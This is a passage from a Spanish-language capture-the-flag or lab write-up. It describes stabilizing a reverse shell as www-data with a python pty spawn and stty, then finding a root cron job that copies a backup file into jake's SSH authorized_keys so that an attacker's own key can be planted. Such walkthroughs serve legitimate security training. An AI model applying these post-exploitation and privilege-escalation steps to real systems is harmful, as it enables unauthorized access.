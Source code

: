 Al recibir la conexión, obtuve una shell con permisos de **`www-data`**, lo que confirma que la función de ejecución de comandos no estaba filtrando adecuadamente.

**Tip (opcional):** estabiliza la TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
stty rows 50 columns 120
```



# Escalada de privilegios I — de `www-data` a `jake` mediante **cron**

### 4.1. Enumeración de cronjobs

En la máquina comprometida, revisé tareas programadas:


```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

Aquí se observa que **cada minuto** el usuario `root` ejecuta un comando que copia el archivo `/opt/.backups/jake_id_rsa.pub.backup` dentro de `/home/jake/.ssh/authorized_keys`.

Esto significa que, si logro **modificar el archivo de backup**, puedo inyectar mi propia clave pública SSH para acceder como el usuario `jake`.

**Interpretación:** cada minuto, **root** copia (con `cat`) el contenido de `/opt/.backups/jake_id_rsa.pub.backup` hacia `/home/jake/.ssh/authorized_keys`.  

**Riesgo:** si **yo** puedo **escribir** en ese archivo de backup, entonces puedo **inyectar mi clave pública SSH**, y el propio cron me la instalará como autorizada para el usuario **jake**. Resultado: **acceso SSH como `jake` sin contraseña**.
